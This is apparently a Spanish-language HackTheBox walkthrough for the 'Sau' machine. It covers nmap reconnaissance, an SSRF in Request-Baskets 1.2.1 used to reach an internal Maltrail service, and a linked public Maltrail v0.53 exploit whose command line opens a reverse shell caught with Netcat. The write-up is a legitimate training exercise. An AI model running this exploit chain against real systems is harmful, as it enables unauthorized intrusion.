# HackTheBox Sau Walkthrough

Este documento proporciona un walkthrough detallado para comprometer la máquina Sau en HackTheBox, destacando las técnicas y herramientas clave empleadas en cada etapa.

## Tabla de Contenidos

- [Introducción](#introducción)
- [Reconocimiento](#reconocimiento)
- [Explotación](#explotación)
  - [Explotación de SSRF en Request-Baskets](#explotación-de-ssrf-en-request-baskets)
  - [Explotando Maltrail con un Exploit](#explotando-maltrail-con-un-exploit)
- [Post-Explotación](#post-explotación)
- [Conclusión](#conclusión)

## Introducción

El propósito de este walkthrough es documentar el proceso seguido para comprometer la máquina Sau, enfocándose en superar varios desafíos de seguridad para obtener acceso como usuario y, finalmente, acceso total.

## Reconocimiento

El reconocimiento es el primer paso crítico en cualquier prueba de penetración. Utilicé `nmap` para identificar los puertos abiertos y los servicios en ejecución en la máquina objetivo:

nmap -sC -sV -oN nmap_initial <IP de la máquina>


Los resultados revelaron los siguientes puertos abiertos:

- **22/tcp** - SSH
- **80/tcp** - HTTP (No respondía)
- **55555/tcp** - HTTP (Accesible)

El intento de acceso al servidor HTTP en el puerto 80 no cargó, pero el puerto 55555 reveló una aplicación web llamada **Request-baskets**.

## Explotación

### Explotación de SSRF en Request-Baskets

**Request-Baskets** es una herramienta para crear puntos finales temporales para inspeccionar solicitudes HTTP. La versión 1.2.1, que estaba en uso, es vulnerable a SSRF (Server Side Request Forgery). Aproveché esta vulnerabilidad para acceder a servicios internos, en particular, al servicio en el puerto 80.

### Explotando Maltrail con un Exploit

El servicio interno redirigido resultó ser **Maltrail**, una aplicación web de monitoreo de tráfico malicioso. Una búsqueda en Google reveló una vulnerabilidad en la versión específica en uso, permitiéndome ejecutar un reverse shell a través de un exploit disponible públicamente: https://github.com/spookier/Maltrail-v0.53-Exploit

python3 exploit.py [IP de escucha] [Puerto de escucha] [URL objetivo]


Utilicé Netcat para escuchar conexiones entrantes en el puerto especificado, lo que me permitió obtener acceso al sistema como el usuario **puma**.

## Post-Explotación

Dentro del directorio home del usuario **puma**, encontré el archivo `user.txt`, que contenía la flag de usuario, marcando el éxito de la fase de post-explotación.

## Conclusión

Este documento detalla el proceso seguido para comprometer la máquina Sau en HackTheBox, desde el reconocimiento inicial hasta la post-explotación. Este ejercicio subraya la importancia de la actualización de software y la configuración adecuada de seguridad para prevenir vulnerabilidades.


